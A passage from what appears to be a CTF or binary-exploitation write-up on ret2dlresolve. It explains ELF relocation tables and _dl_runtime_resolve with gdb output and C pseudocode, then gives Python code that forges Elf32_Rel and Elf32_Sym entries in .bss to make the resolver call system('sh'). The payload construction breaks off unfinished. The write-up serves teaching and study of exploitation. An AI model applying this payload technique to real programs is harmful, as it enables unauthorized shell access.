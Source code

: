 If we look at JMPREL section, ELF32_R_SYM of `read` is 1 and st_name is 0x1a. This information is used to get value in STRTAB.

```gdb
pwndbg> x/s 0x0804821C + (1*0x1a)
0x8048236:	"read"
```

##### _dl_runtime_resolve()

When resolver runs, it calls _dl_runtime_resolve(link_map, rel_offset). The rel_offset gives offset of the `Elf32_Rel` struct in JMPREL table. `link_map` gives address of list with all loaded libraries. _dl_runtime_resolve() will use that address to stores resolved read function from libc. So basically it's just need a writable address. The pseudocode that describes what _dl_runtime_resolve() does is:

```c
// call of unresolved read(0, buf, 0x100)
_dl_runtime_resolve(link_map, rel_offset) {
    Elf32_Rel * rel_entry = JMPREL + rel_offset ;
    Elf32_Sym * sym_entry = &SYMTAB [ ELF32_R_SYM ( rel_entry -> r_info )];
    char * sym_name = STRTAB + sym_entry -> st_name ;
    _search_for_symbol_(link_map, sym_name);
    // invoke initial read call now that symbol is resolved
    read(0, buf, 0x100);
}
```

##### Building payload

With knowing concept of JMPREL, SYMTAB, STRTAB, and how _dl_runtime_resolve() works, then we can craft a payload that ask binary to call _dl_runtime_resolve to resolves symbol system then calls `system('sh')` for us.

First calculate the address off `Elf32_Rel` structure of system's symbols that we create in stage2 as `0x08048298` is address of the top table of JMPREL.

```python
crafted_area = bss_segment + 0x14
elf32_Rel_offset = crafted_area - ELF_JMPREL_Rel_Tab
```

Then calculate `elf32_Sym_offset` and `elf32_Sym_index` as `0x080481CC` is the address  of top address of SYMTAB.

```python
elf32_Sym_offset = crafted_area + 0x8
align = 0x10 - ((elf32_Sym_offset - ELF_Symbol_Tab) % 0x10)
elf32_Sym_offset += align
elf32_Sym_index = (elf32_Sym_offset - ELF_Symbol_Tab) / 0x10
```

Next, calculate `elf32_Sym_st_name` value so _dl_runtime_resolve can find our "system" string.

```python
elf32_Rel_r_info = (elf32_Sym_index << 8) | 0x7

elf32_Rel_data = flat(p32(tmp_got), p32(elf32_Rel_r_info))

elf32_Sym_st_name = (elf32_Sym_offset + 0x10) - ELF_String_Tab
elf32_Sym_data = flat(p32(elf32_Sym_st_name), p32(0), p32(0), p32(0x12))
```
